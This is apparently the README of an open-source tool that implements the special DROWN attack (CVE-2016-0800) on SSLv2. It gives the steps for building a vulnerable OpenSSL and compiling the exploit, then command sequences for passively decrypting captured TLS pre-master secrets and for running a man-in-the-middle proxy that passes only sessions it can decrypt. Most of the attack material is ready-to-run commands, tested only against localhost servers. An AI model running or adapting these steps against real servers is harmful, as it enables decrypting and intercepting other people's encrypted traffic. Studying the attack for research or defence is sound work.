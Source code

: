 # drown
Implementation of the special DROWN attack on SSL2

Note : this does not cover the general DROWN attack.


## Installation

First, we need a version of OpenSSL with SSLv2 enabled. Also, if we want to make some simulations, we need a vulnerable OpenSSL (<= 1.0.1l).
We will compile and install it on the folder /path/to/prefix :

    wget https://www.openssl.org/source/openssl-1.0.1l.tar.gz
    tar xzf openssl-1.0.1l.tar.gz
    cd openssl-1.0.1l
    ./config enable-ssl2 enable-weak-ciphers --openssldir=/path/to/prefix
    make && make install

Now let's compile the exploit :

    git clone https://github.com/Tim---/drown
    SSL_PREFIX=/path/to/prefix make

To decrypt an encrypted pre-master secret c, using the public key of the server at the address host:port, we will use the following command :

    ./decrypt host:port certfile c

## Passive attack

In this type of attack, we can see the traffic between a server and a client using TLS.
In this case, we can decrypt some TLS sessions if :
* the same server, or another server, allows SSLv2 connections with the same public key ;
* the TLS sessions uses RSA as a key exchange algorithm (no Diffie-Hellman) ;
* the server is vulnerable to CVE-2016-0800 ;
* there is a sufficient number of session.

### Simulation

To simulate this scenario, want to record some TLS handshakes between a client and a server.
We will use the old version of OpenSSL we have installed to create a server, and initiate a lot of sessions.
We will capture the handshakes with tshark.

    cd /path/to/prefix
    ./bin/openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 123
    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4433 -www
    tshark -i lo -w handshakes.cap tcp port 4433
    for i in $(seq 1000) ; do (echo 'GET / HTTP/1.1\r\n'; sleep 0.1) | ./bin/openssl s_client -connect 127.0.0.1:4433 -cipher kRSA; done

We can now get the encrypted pre-master secrets for each session with :

    tshark -r handshakes.cap -d tcp.port==4433,ssl -T fields -e ssl.handshake.epms -Y ssl.handshake.epms | tr -d :

To decrypt these handshakes, we need an OpenSSL server accepting SSLv2 connections :

    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4434 -www -ssl2

We can now decrypt the encrypted pre-master secret : 

    tshark -r handshakes.cap -d tcp.port==4433,ssl -T fields -e ssl.handshake.epms -Y ssl.handshake.epms | tr -d : | ./decrypt localhost:4434 cert.pem > pms.txt

After some time and if we're lucky, we will have some results in pms.txt. You can use this file in Wireshark to decrypt the content of the TLS session (Protocol Preferences > SSL > (Pre)-Master-Secret log filename).

## Gandalf attack

The passive attack allows us decrypt some TLS sessions (around 1/100 using 70 trimmers).
If we want to see all the traffic between the client and the server, we can act as a MITM proxy between them
and only allow sessions that we know we can decrypt.
This will be effective if the client doesn't mind getting a TLS handshake abruptly closed, and if it tries hard to reconnect.
This will typically work if the client is an automated process (and not a human !).

### Simulation

We start our SSLv2 and TLS servers :

    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4433 -www
    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4434 -www -ssl2

We start our MITM server on port 4455 :
    tlsgandalf 127.0.0.1:4455 127.0.0.1:4433 127.0.0.1:4434 cert.pem

We will record the packets with tshark, and start a bunch of sessions.
We assume that the clients connects to our proxy (because of DNS spoofing, or something else) :
    tshark -i lo -w handshakes.cap tcp port 4455
    for i in $(seq 1000) ; do (echo 'GET / HTTP/1.1\r\n'; sleep 1) | ./bin/openssl s_client -connect 127.0.0.1:4455 -cipher kRSA; done

When a trimmer is found for one handshake, the proxy will print it to stdout. 
We can now process as before to decrypt the session.

